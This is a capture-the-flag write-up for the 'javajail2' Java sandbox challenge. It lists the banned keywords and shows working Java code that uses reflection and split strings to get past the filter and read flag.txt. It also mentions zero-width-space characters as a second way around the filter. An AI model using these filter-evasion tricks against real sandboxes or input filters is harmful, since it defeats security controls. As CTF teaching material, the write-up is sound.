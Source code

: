 ```yaml
---
title: "javajail2"
description: "okay sorry here's a real jail."
points: 355
solves: 54
author: Jozef Steinhübl
date: April 10 2024
---
```


## Introduction

![task](https://raw.githubusercontent.com/GerlachSnezka/amateursctf/main/assets/2024-jail-javajail2.png)

In this jail, we can't use `import`, `throws`, `new`, `File`, `Scanner`, `Buffered`, `Process`, `Runtime`, `ScriptEngine`, `Print`, `Stream`, `Field`, `javax`, `flag.txt`, `^`, `|`, `&`, `'`, `\\`, `[]`, `:` but we can use strings and curly braces. That means we're gonna write a normal program instead of using some weird compiler behaviour.

## Solution

The easiest way to read a file in modern Java versions is probably by using `java.nio.file.Files` and `java.nio.file.Paths`.

```java
interface Lmao { // using interface because why not :-D
    public static void main(String... args) {
      try {
        var path = java.nio.file.Paths.get("flag.txt");
        var content = java.nio.file.Files.readString(path);

        System.out.println(content);
      } catch (java.lang.Exception e) {
        e.printStackTrace();
      }
    }
}
```

but wait! We can't have any word that contains `File` and `flag.txt`. That means we can't use `java.nio.file.Files`, or can we...? We can, by using our most beloved, reflections! For the `flag.txt` we can just do something like `"fla" + "g.txt"`

```java
interface Lmao {
  public static void main(String... args) {
    try {
      var path = java.nio.file.Paths.get("fla" + "g.txt");

      var fsClass = Class.forName("java.nio.file." + "Fil" + "es");
      var readStringMethod = fsClass.getMethod("readString", Class.forName("java.nio.file.Path"));
      var content = readStringMethod.invoke(null, path);

      System.out.println(content);
    } catch (java.lang.Exception e) {
      e.printStackTrace();
    }
  }
}
```

We can minify this code into one line by the easiest method - putting the code into the browser's search bar and copying the minified code.

```java
interface Lmao { public static void main(String... args) { try { var path = java.nio.file.Paths.get("fla" + "g.txt"); var fsClass = Class.forName("java.nio.file." + "Fil" + "es"); var readStringMethod = fsClass.getMethod("readString", Class.forName("java.nio.file.Path")); var content = readStringMethod.invoke(null, path); System.out.println(content); } catch (java.lang.Exception e) { e.printStackTrace(); } } }
```

And now we can just paste this code into the jail's socket using netcat and it will print the flag.

```
amateursCTF{r3flect3d_4cr055_all_th3_fac35}
```

> **FunFact**  
> Java compiler is a beautiful thing. You can just use [ZWSP](https://en.wikipedia.org/wiki/Zero-width_space) characters to bypass the filter.